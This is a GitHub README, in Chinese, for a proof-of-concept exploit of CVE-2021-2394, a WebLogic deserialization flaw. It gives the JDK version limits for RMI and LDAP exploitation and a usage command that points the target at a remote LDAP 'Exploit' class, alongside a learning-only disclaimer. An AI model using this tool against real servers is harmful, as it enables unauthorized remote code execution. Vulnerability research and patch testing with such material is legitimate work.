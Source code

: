 # CVE-2021-2394

POC of CVE-2021-2394

- 免责声明
  - 项目仅供学习使用，任何未授权检测造成的直接或者间接的后果及损失，均由使用者本人负责

* 注意事项
  * POC使用IIOP发包，请添加相关依赖（已将12.2.1.3.0版本的依赖放release）
  * 请使用低版本的jdk安装weblogic进行测试
    > 基于RMI的利用方式，JDK版本限制于6u132、7u131、8u121之前，在8u122及之后的版本中，加入了反序列化白名单的机制，关闭了RMI远程加载代码
    > 基于LDAP的利用方式，JDK版本限制于6u211、7u201、8u191、11.0.1之前，在8u191版本中，Oracle对LDAP向量设置限制，发布了CVE-2018-3149，关闭JNDI远程类加载
    > From：https://www.freebuf.com/vuls/279465.html
  * 在虚拟机环境中无法复现可参考https://xz.aliyun.com/t/7498
    

* 使用方法：
  * 启动一个ldap服务
  * `java -jar CVE_2021_2394.jar rhost rport ldapurl`
  * eg:`java -jar CVE_2021_2394.jar 192.168.137.1 7001 ldap://192.168.137.1:8087/Exploit`
* 参考链接：
  * https://mp.weixin.qq.com/s/onoMpyenDkMmsoGEw8VO2A
  * https://github.com/Y4er/CVE-2020-14756
  * https://github.com/Y4er/CVE-2020-2551
* 更新
  * 2021/8/15 删除一些不必要的代码
* 分析文章
  * https://mp.weixin.qq.com/s/AxJJxbkclr4ijXX8lpNAfw 
